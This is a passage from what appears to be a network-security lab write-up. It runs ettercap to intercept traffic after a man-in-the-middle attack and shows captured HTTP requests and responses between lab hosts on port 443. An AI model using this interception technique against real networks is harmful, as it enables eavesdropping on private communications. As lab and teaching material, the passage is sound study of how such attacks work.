 Start `ettercap` as we did previously.

```bash
ettercap -C -i eth3
```

After the exploit is done, check live connections under `View`. Select some connections with port 443 (standard HTTPS port) to check the data communicated.

### Connection 1

`10.1.1.3:55748`:

```
GET /cgi-bin/access2.cgi?line=3534 HTTP/1.1
Host: alice-lan0
User-Agent: curl/7.58.0
Accept: */*
```

`10.1.1.2:443`:

```
HTTP/1.1 200 OK
Date: Thu, 11 Feb 2021 01:46:37 GMT
Server: Apache/2.4.29 (Ubuntu)
Transfer-Encoding: chunked
Content-Type: text/html

30
        The door is disappearing, dissolving

0
```

### Connection 2

`10.1.1.3:56492`:

```
GET /cgi-bin/access2.cgi?line=554 HTTP/1.1
Host: alice-lan0
User-Agent: curl/7.58.0
Accept: */*
```

`10.1.1.2:443`:

```
HTTP/1.1 200 OK
Date: Thu, 11 Feb 2021 01:56:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Transfer-Encoding: chunked
Content-Type: text/html

37
        He pushes his chair back, leaves his office.

0
```
